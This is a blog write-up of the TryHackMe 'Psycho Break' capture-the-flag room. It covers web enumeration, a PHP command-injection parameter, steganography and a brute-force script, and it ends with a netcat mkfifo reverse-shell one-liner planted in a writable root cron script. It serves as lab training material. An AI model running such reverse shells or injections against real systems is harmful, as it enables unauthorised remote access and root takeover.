 ```yaml
---
layout: post
title:  "TryHackMe/Psycho Break"
author: "Berkay Guclu"
lang: en
categories: tryhackme easy
permalink: /:categories/psycho-break
---
```


[<img src="/assets/images/tryhackme/psycho.jpeg" height="150">](https://tryhackme.com/room/psychobreak)

*"Help Sebastian and his team of investigators to withstand the dangers that come ahead."* -[shafdo](https://tryhackme.com/p/shafdo)

Dificulty: *Easy*

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)


## [Scan/Enumeration]

We can start by doing an nmap scan.

{% highlight bash %}
nmap -A -oN tartarus.nmap <ip>
{% endhighlight %}

![psycho-1](/assets/images/tryhackme/psycho-1.png)

We can see that FTP, SSH and Apache http services are running. FTP doesn't allow anonymous login. So let's start by looking at the web server.

On the page that welcomes us, when we look at the source code, we will see the "/sadistRoom" directory. The sadist room will give us the key to locker room.

In locker room, we find a encoded text. I use a [cipher identifier](https://www.boxentriq.com/code-breaking/cipher-identifier) to find out what the text has been encrypted with and i decode it with [CyberChef](https://gchq.github.io/CyberChef/).

![psycho-2](/assets/images/tryhackme/psycho-2.png)
![psycho-3](/assets/images/tryhackme/psycho-3.png)

Now we can access the map.

![psycho-4](/assets/images/tryhackme/psycho-4.png)

We see 4 different locations on the map. We have already finished with the first two. If you look at The Abandoned Room, you'll see that we need the keeper key to access it. We will reach this key via safe heaven.

At this point I tried a lot of things. I downloaded all the images on the site and tried to find something in them but I couldn't find anything.

If it's not in the images, I thought this should be a directory. To find the directory, I did a gobuster scan using the ["directory-list-2.3-medium.txt"](https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-medium.txt).

{% highlight bash %}
gobuster dir -u http://<IP>/SafeHeaven/ -w directory-list-2.3-medium.txt
{% endhighlight %}

![psycho-5](/assets/images/tryhackme/psycho-5.png)

In this directory, we need to find the location of the image. We can use reverse image search. You can easily find the answer and get the keeper key.

We will meet Laura the Spiderlady in the Abandoned room. We will see a hint as we look at the source code.

*"There is something called "shell" on current page maybe that'll help you to get out of here !!!"*

We can try the word "shell" to give a parameter to the PHP file.

{% highlight html %}
http://<IP>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls
{% endhighlight %}

Yes, it is work. But we can only run the ls command. After trying a few alternatives, I use the "ls .." command to list a parent directory and it works. In the upper directory we see two directory or files encrypted with md5. One is the directory we are in, and the other we need to look to understand what it is.

![psycho-6](/assets/images/tryhackme/psycho-6.png)

We found "helpme.zip".

## [Gain Shell]

When we unzip the file, we will see a txt file and a jpg. The txt file says the key is in the Table.jpg. When we look at this jpg file with the "file" command, we see that it is actually a zip.

![psycho-7](/assets/images/tryhackme/psycho-7.png)

When you listen to the audio file, you will see that it has morse code. To decode this, I find an [audio morse decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) with a simple search.

![psycho-8](/assets/images/tryhackme/psycho-8.png)

I will use this word to extract files from "Joseph_0da.jpg" with the steghide tool.

{% highlight bash %}
steghide extract -sf Joseph_0da.jpg
{% endhighlight %}

![psycho-9](/assets/images/tryhackme/psycho-9.png)

Now we have the FTP information, we can try to login. In FTP server, we have two file. One ELF(executable) file and one dictionary file.

![psycho-10](/assets/images/tryhackme/psycho-10.png)

As it is understood, we will need to bruteforce the program file with the dictionary file we found. I will use the python language for this.

{% highlight python %}
import os

f = open('random.dic','r')

for i in f:
    i = i.replace("\n","")
    result = os.popen(f"./program {i}").read()
    if "Incorrect" not in result:
        print(result)
        break

f.close()
{% endhighlight %}

![psycho-11](/assets/images/tryhackme/psycho-11.png)

Now we need decode this text. The cipher identifier I used before could not identify it. I have encountered this encryption before, I know it is related to the phone. After a few tries on a [decode site](https://www.dcode.fr/en), I find what I'm looking for. This is "Multi-tap Phone Cipher".

![psycho-12](/assets/images/tryhackme/psycho-12.png)

Now, we have some credentials. We can try these for SSH connection.

## [Privilege Escalation]

When I login a linux machine, I first check the SUID files and cronjobs. Here too I found something in /etc/crontab file.

![psycho-13](/assets/images/tryhackme/psycho-13.png)

We see that we have the authority to write to this file, which is run regularly with root authority. Let's get a reverse shell. I will use netcat.

{% highlight bash %}
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
{% endhighlight %}

![psycho-14](/assets/images/tryhackme/psycho-14.png)

{% highlight bash %}
nc -nvlp <PORT>
{% endhighlight %}

After waiting for a while, we will have root privilege.

![psycho-15](/assets/images/tryhackme/psycho-15.png)
